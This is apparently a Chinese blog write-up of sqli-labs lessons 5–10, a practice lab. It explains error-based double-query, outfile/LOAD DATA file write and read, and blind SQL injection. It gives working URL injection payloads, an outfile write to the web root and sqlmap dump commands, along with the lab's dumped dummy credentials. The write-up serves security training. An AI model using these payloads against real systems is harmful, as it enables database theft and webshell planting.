






## 前言

开始 sqli-labs 的第二轮训练。

> **!!!ATTENTION!!!**
>
> 在 MySQL 5.7.36 更新中，修复了 group by 报错  `Duplicate entry '0' for key '<group_key>'` 的问题。
>
> > [Changes in MySQL 5.7.36 (2021-10-19, General Availability)](https://dev.mysql.com/doc/relnotes/mysql/5.7/en/news-5-7-36.html)
> >
> > When a query uses a temporary table for aggregation, the group by item is used as a unique constraint on the temporary table: If the item value is already present, the row is updated; otherwise, a new row is inserted into the temporary table. If the item has a result field or reference item, it it evaluated twice, once to check whether the result exists in the temporary table and, if not, again while constructing the row to be inserted. When the group by item was nondeterministic, the result value used to check for existence differed from that with which an insert was attempted, causing the insert to be rejected if the value already existed in the table.
> >
> > We fix this by using the hash of any nondeterministic items as the unique constraint, so that the hash is evaluated once only. (Bug #32552332)
>
> 使用的 MySQL 版本 >=5.7.36 时，Less 5 和 Less 6 使用的 `select count(*), concat(version(), '~', floor(rand(14)*2)) x from user group by x;` 不会再报错。这个利用被彻底堵死了。

## Less-5 Error-Based Double Query

### 原理

有一篇[很好的文章](https://blog.werner.wiki/principle-of-double-injection-in-mysql/)解释了这里的 Double Injection 指的是什么。我尽量概括一下。

先忽略 *Double Injection* 这个不明所以的名字，它代表技术原理的是利用 `group by <col>` 产生临时表，`col` 在临时表有唯一性约束，而 MySQL 在违反唯一性约束的错误信息里会提示违反唯一性的`col`内容是什么，由此产生信息泄露。

以一个案例来解释。下面的查询里`version()`是想爆的列，`concat(...)`连接目标列和随机数序列构造一个尽可能快出现冲突的`group key`。`floor(rand(14)*2)`产生的序列前四个结果是`1,0,1,0`，插入过程会产生两个`rand`调用（一次检查是否存在，一次插入新行），所以可以看成第一次查询`1`不存在，插入`0`；第二次查询`1`不存在，插入`0`，报错违反唯一性约束。

```sql
select count(*), concat(version(),'~',floor(rand(14)*2)) x from test group by x;
```

其中一个比较有趣的点是为什么要用`rand`，能不能写一个固定值？

```sql
select count(*), concat(version(),'~','hello') x from test group by x;
```

不行，这样做等于`group by`常量或者一个列，和普通`group by`没区别。`rand`发挥的关键作用是扰乱插入更新/插入临时表的过程。这个过程可以理解成这样：

```go
if !update(group_key, tally+1) {
    insert(group_key, 1)
}
```

不使用`rand`时`update`和`insert`接收的就是同一个`group_key`，使用`rand`后`update`和`insert`就可能用的不是同一个`group_key`了，导致进入`insert`时插入的是已存在的`group_key`。

另一个有趣的问题是为什么要有`count(*)`？去掉`count(*)`就会导致不再报错。

等大佬解释。

### 题解

`?id=1' union select null,concat(version(),'~',floor(rand(14)*2))x,count(*) from users group by x; --%20`



> **Attention：** MySQL版本 >=5.7.36 这个解法彻底失效。目前搜索 Double Injection 只有这一个解，如果有别的思路务必告知我。

## Less-6 Error-Based Double Query

和 Less-5 的区别只在于从单引号换成了双引号。稍微改一改 payload：`?id=1" union select null,concat(version(),'~',floor(rand(14)*2))x,count(*) from users group by x; --%20`



## Less-7 Dump into Outfile

> **注意：**这题不要求 Error-Based 了，请注意。

### 原理

简而言之，两个方面：

1. 利用 MySQL 的 `select ... into outfile|dumpfile <filepath>` 语法把查询结果保存到文件。
2. 利用 MySQL 的 `LOAD DATA` 和 `LOAD XML` 语句读出任意文件内容。

第一点可以用作覆盖磁盘上任意文件，通过 SQL 注入实现写入 webshell 或 crontab 等恶意行为。

第二点可以从 SQL 注入扩展到任意文件读取，MySQL 权限足够情况下可以拿到很多敏感文件内容。

### 题解

本题没有回显，虽然可以按盲注爆破，但题目提示是使用 `outfile`。所以最简单的解法就是两步走。

1. 注入 `SELECT ... INTO DUMPFILE` 导出结果到文件。
2. 注入 `LOAD DATA` 进而拿到结果。

先确认注入类型：

- `?id=1 and 1=0;--%20` 无效
- `?id=1' and 1=0;--%20` 报错
- `?id=1" and 1=0;--%20` 无效



所以是字符型注入，但SQL语句未知，尝试补括号：`?id=1') and 1=1;--%20`，依然报错，补两个括号后发现变正常：`?id=1')) and 1=1;--%20`。完成注入类型确认。



接着把`and`条件去掉，改成`into outfile '/var/www/html/dump.txt'`，完整 payload：`?id=1')) into outfile '/var/www/html/dump.txt';--%20`

> **注意：**docker方式部署请注意，MySQL 镜像默认启用了 `--secure-file-priv` 选项，这个选项会禁用 `select .. into outfile|dumpfile`，使注入的SQL执行失败。
>
> **注意：**docker-compose 方式部署的 sqli-labs 如果把 MySQL 和 PHP+Apache 分开部署，即使`select ... into outfile ...` 成功，也无法直接通过 HTTP 方式下载，这一利用也无法继续下去。

上述注入如果成功的话可以直接访问 `http://localhost:8080/dump.txt` 下载到查询结果了。

## Less-8 Blind Boolian

题目是布尔盲注。确认 SQL 注入类型：`?id=1' and 1=1;--%20`。



典型的盲注，不自己动手了，接下来直接上 sqlmap。

```bash
sqlmap -u 'http://localhost/Less-8/?id=1' --technique B -p id -T users --dump
```

```
Database: security
Table: users
[13 entries]
+------+----------+------------+
| id   | username | password   |
+------+----------+------------+
| 1    | Dumb     | Dumb       |
| 2    | Angelina | I-kill-you |
| 3    | Dummy    | p@ssword   |
| 4    | secure   | crappy     |
| 5    | stupid   | stupidity  |
| 6    | superman | genious    |
| 7    | batman   | mob!le     |
| 8    | admin    | admin      |
| 9    | admin1   | admin1     |
| 10   | admin2   | admin2     |
| 11   | admin3   | admin3     |
| 12   | dhakkan  | dumbo      |
| 14   | admin4   | admin4     |
+------+----------+------------+
```

done。

## Less-9 Blind Time-Based

基于时间的盲注，先测试注入类型：`?id=1' and sleep(1);--%20`



确认注入类型成功。接着还是上 sqlmap。

```bash
sqlmap -u 'http://localhost/Less-9/?id=1' --technique T -p id -T users --dump --count 1
```

基于时间的盲注非常慢，即使 sqlmap 做了优化，依然非常慢，所以只提取一行。我懒得等就直接 ctrl+c 了。总之，就到这里结束。

## Less-10 Blind Time-Based DoubleQuotes

和 Less-9 一样，换成了双引号。`sqlmap`需要加上`--level 2`参数，让 `sqlmap` 更努力一点。

## 总结

两个知识点一个教训。

知识点：

1. `rand`结合`group by`实现报错注入，不过遗憾的是 MySQL 5.7.36 修复了，将来这个技巧算废了。
2. `select ... into outfile|dumpfile`和`load data`。对MySQL和php分开部署的情况能导出不能下载，MySQL容器默认禁止了文件权限，无法利用。

教训则是接受失败和耐心尝试。尝试 Less-7 的时候，因为多出来的两个右括号，第一次补右括号无效后我差点就放弃尝试直接去看源码了。后来不抱什么希望再补了一个右括号，发现成功了的时候真的很惊喜，甚至有点庆幸。这也算是一次对自己的惰性的胜利吧。

虽然啥也没干还是辛苦我自己了。